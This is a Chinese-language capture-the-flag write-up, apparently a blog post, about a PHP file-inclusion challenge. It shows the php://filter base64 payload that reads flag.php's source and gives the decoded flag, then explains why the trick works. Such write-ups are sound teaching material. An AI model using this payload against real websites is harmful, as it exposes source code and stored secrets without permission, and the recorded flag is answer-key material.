




## 一、解题过程

### 1.1 打开题目



页面有个tips，源码很少：

```html
<meta charset="utf8">
<a href="?file=flag.php">tips</a>
```

一个链接，点击跳转`?file=flag.php`，`?file=`说明又是文件包含，用 `include` 把传入的文件名包含进来

### 1.2 直接访问flag.php

先点tips看看（tips肯定是出题人留的有用的）：

```
/?file=flag.php
```

页面返回：

```
Can you find out the flag?
```



然后没了，但php文件名字都叫flag了， flag 大概率就在这

想起了ctfshow的web入门的命令执行部分，虽然主要考察的点不是这个，但情况是一样的，当时绕过后php会将代码执行，但是文件中的内容不会显示

> 这就是 `include` 的效果：它不是"读取文件内容并显示"，而是"把文件内容当作PHP代码执行"。所以只能看到代码运行后的输出，看不到源码本身，想看源码，就得想办法让PHP不执行而是完整展现

### 1.3 用php://filter读源码

PHP 有一个内置的伪协议 `php://filter`，可以在读取文件时对内容做转换，我们用它把文件内容 base64 编码后再返回，这样 PHP 就认为这不是可执行的代码了：

```
/?file=php://filter/read=convert.base64-encode/resource=flag.php
```

页面返回：

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL0NURjJ7NzI5ZWQ5NjAtYjlkMC00NWViLWFjMTQtODhkZDc5YzM1MDFjfQo=
```



base64 解码后：

```php
<?php
echo "Can you find out the flag?";
//CTF2{729ed960-b9d0-45eb-ac14-88dd79c3501c}
```



## 二、php://filter 怎么工作

### 2.1 payload拆解

```
php://filter/read=convert.base64-encode/resource=flag.php
└── 协议 ──┘  └── 过滤器 ─────────────────────┘ └── 目标文件 ─┘
```

| 部分 | 含义 |
|------|------|
| `php://filter` | PHP内置伪协议，读文件时先经过过滤器处理 |
| `read=convert.base64-encode` | 读取时做 base64 编码 |
| `resource=flag.php` | 要读取的目标文件 |

### 2.2 为什么能绕过执行

正常 `include 'flag.php'` 时，PHP 会执行代码，`echo` 被执行了，但注释 `//CTF2{...}` 不会输出

用了 base64 编码后，文件内容传之前已经变成了：

```
PD9waHAKZWNobyAiQ2FuIHlvdSBmaW5kIG91dCB0aGUgZmxhZz8iOwovL0NURjJ7...
```

这串 base64 里没有 `<?php` 标签，PHP 不认为它是代码，直接当文本输出，就能拿到 base64 后的内容

对比一下：

| 输入 | include的行为 | 看到的 |
|------|-------------|---------|
| `flag.php` | 执行里面的PHP代码 | 只有echo的输出，注释看不了 |
| `php://filter/.../resource=flag.php` | 读文件→base64编码→再include | 一串base64字符串 |

> 核心思路就一句话：文件被 include 执行之前，我们先把内容编码成base64格式，让 PHP 认不出它是代码，从而把源码原样返回。相当于危险品过安检前作一次伪装，拿出来再卸下

## 三、总结

这道题没有过滤，直接用 `php://filter` 把源码 base64 编码后读出来，核心就一个 payload：

```
?file=php://filter/read=convert.base64-encode/resource=flag.php
```

> 这里有个小点：flag 藏在 PHP 注释里 `//CTF2{...}`，而不是在正式代码里，这说明了flag很大概率会被故意藏在各种地方，大多不会直接被执行展示，可能在注释、隐藏文件、HTTP响应头……任何地方，所以源码要仔细的审，不能只看的输出

---

Orion notes · 学习·实践·分享
